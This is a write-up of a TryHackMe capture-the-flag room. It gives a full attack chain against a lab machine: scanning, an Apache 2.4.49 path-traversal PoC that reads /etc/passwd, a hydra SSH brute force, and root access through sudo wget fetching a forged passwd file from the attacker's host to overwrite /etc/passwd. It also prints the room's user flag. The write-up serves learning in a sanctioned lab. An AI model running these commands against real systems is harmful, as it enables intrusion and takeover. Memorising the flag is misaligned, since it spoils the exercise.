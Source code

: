
# THM-basiclevelctf-Writeup
https://tryhackme.com/room/basiclevelctf

The first step is to find out which ports are open.

```
nmap -sCV -vv 192.168.1.19
```
![NMAP Resulst](images/nmap.png "NMAP")

From the output of nmap now we know that there are 2 open ports,
that is: port 22 that is running SSH, Port 80 running a http webserver.

1. Q: What are the names of the services on the open ports?
A: ssh,http

# Accessing the Webserver
We access port 80 and this is the result we get.

![Webserver](images/index.png)



# Finding directory

To find other pages or directories that may exist within the server
we can use any directory brute-force tools such as dirbuster,
gobuster, dirsearch etc. But In my case I want to use dirb.

```
dirb http://192.168.1.19/
```
![dirb](images/dirb.png)

# Checking robots.txt
After checking **robots.txt**, we realized that there is a file named **secret.lst** thanks to robots.txt and it is most likely a wordlist.

![robots.txt](images/robots.png)

![secret.lst](images/secretlst.png)

# Check exploit for open port 22 or 80
Now we only have a wordlist and the ssh service is open. But we did not investigate whether the service running on port 80 has any vulnerability, let's start researching.

![exploit](images/exploit.png)

It seems that the Apache HTTP Server 2.4.49 service has a vulnerability. Let's download the code and test it on our target machine. 
Reference: https://www.exploit-db.com/exploits/50406
```
chmod +x PoC.sh
echo "http://192.168.1.19" > targets.txt
./PoC.sh targets.txt /etc/passwd
```
![readpasswd](images/readpasswd.png)
Yes, we detected a "Path Traversal" vulnerability on our target machine.
And in this way, we have detected the user named **h1ddenuser** by reading the /etc/passwd file.

# SSH Bruteforce
I will use the **hydra** tool to make a bruteforce attack, you can use any tool you want.
```
hydra -l h1ddenuser -P /home/user00/Downloads/secret.lst -t 64 ssh://192.168.1.19
```
![SSH Bruteforce Attack](images/hydra.png)
We found the password of the user named **h1ddenuser** with a brute-force attack. Let's log in!
```
ssh h1ddenuser@192.168.1.19
```
![We are in!](images/wearein.png)

# Let's find out what we have
```
cd ~
ls -la
```
![User.txt](images/usertxt.png)

2. Q:  user.txt 
A: THM{se3ms_l1ke_ez_f0r_y0u!}

# Privilege Escalation
Let's try **sudo su**
```
sudo su
```
![sudo su](images/sudosu.png)
Aughh failed!
But it's okay. Let's try **sudo -l**
```
sudo -l
```
![wget](images/wget.png)

We can use the -O parameter of the **wget** tool to become root. Since it will work with sudo, the output file will also be written by root. This means that we can manipulate the /etc/passwd file as we wish.
But first we need read /etc/passwd file again for copy everything. 
After that create password with **openssl** as we will overwrite /etc/passwd.
```
openssl passwd -1 your_password
```
Output: `$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/`
Let's manipulate the /etc/passwd file.
On our own computer, I create a file named **etc-passwd** on the desktop and make its content like this.
```
root:$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
h1ddenuser:x:1000:1000:h1ddenuser:/home/h1ddenuser:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
Now let's start apache2.service on **attacker** machine for download named **etc-passwd** file and overwrite **/etc/passwd**.
![](images/apache2.png)
```
sudo service apache2 start
sudo mv /home/user00/Desktop/etc-passwd /var/www/html/
```
Now we can go back to the target ssh terminal. There's only one thing left to do.
```
sudo wget http://192.168.1.200/etc-passwd -O /etc/passwd
```
